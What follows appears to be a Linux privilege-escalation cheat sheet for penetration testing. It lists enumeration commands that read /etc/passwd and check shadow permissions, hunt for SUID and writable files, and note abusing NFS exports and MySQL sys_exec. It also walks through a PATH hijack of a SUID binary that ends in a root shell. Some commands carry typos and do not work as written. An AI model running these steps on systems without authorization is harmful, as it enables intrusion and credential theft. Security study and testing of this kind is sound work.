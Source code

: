 # elevate linux

## what's the os? what version? what architecture?

    cat /etc/*-release
    uname -i
    lsb_release -a (debian based oss)

## who are we? where are we?

    id
    pwd

## who uses the box? what users? (and which ones have a valid shell)

    cat /etc/passwd
    grep -ve "nologin|false" /etc/passwd

## what's currently running on the box? what active network services are there?

    ps aux
    netstat -antup
    ss -ltpa

## what's installed? what kernel is being used?

    dpkg -l (debian based oss)
    rpm -qa (centos / opensuse )
    uname -a

## who are the current users?

    cat /etc/passwd
    cat /etc/passwd | egrep -e '/bin/(ba)?sh'

## what are the low hanging fruits?

    # if the gods are on your side
    sudo su

    # check for sudo privs
    sudo -l

    # view permissions on passwd
    ls -l /etc/passed

    # view permissions on shadow
    ls -l /etc/shadow

    # check for cron jobs
    cat /etc/crontab

    # check for kernel priv-esc exploits
    uname -a
    cat /etc/issue

    # check /home persmissions
    ls -la /home

    # check /root persmissions
    ls -l /root

    # suid files
    find / -user root -perm -4000 -exec ls -ldb {} \;

    # guid files
    find / -perm -g=s -type f 2>/dev/null

    # (look for - nmap,vim,find,bash,more,less,nano,cp,man)

    # user writable files
    find / -type f ( ! -path "/proc" ) -writable 2>/dev/null | xargs ls -l

    # world writable files
    find / -writable -type d 2>/dev/null
    find / -perm -222 -type d 2>/dev/null
    find / -perm -o w -type d 2>/dev/null

    # world executable files
    find / -perm -o x -type d 2>/dev/null

    # world writable and executable files
    find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

    # check for nfs shares: if writeable, add /root, restart, and mount
    cat /etc/exports

## what are the files we have access to?

    # check for world writeable files
    find / -path /sys -prune -o -path /proc -prune -o -type f -perm -o=w -ls 2> /dev/null

    #check for world writeable directories
    find / -path /sys -prune -o -path /proc -prune -o -type d -perm -o=w -ls 2> /dev/null

    #look for interesint files:
    find / -name "*.txt" -ls 2> /dev/null
    find / -name "*.log" -ls 2> /dev/null

## what are the processes running as root?

    ps -aux | grep root

## what are the processes with open and listening sockets:

    netstat -a | grep -i listen
    netstat -anlp
    netstat -ano
    ss -ltpa

## who is running the database?

    # mysql
    select sys_exec('whoami');
    select sys_eval('whoami');

## what are the boot processes?

    ls /etc/rc*

## setuid

    # after setting a setuid bit on a binary such as bash, in order to retain the setuid privs, you must supply the -p flag:
    ./bash -p

    # overwrite used binary by bash
    $ ls -l /usr/local/bin/docker-security
    -rwsr-xr-x 1 root mortal 16720 feb 15 20:00 /usr/local/bin/docker-security
    $ cd /usr/local/bin/
    $ echo "/bin/bash" > /tmp/chmod
    $ chmod 777 /tmp/chmod
    $ export path=/tmp:$path
    $ echo $path
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
    $ ./docker-security
    # id
    uid=0(root) gid=0(root) groups=0(root)
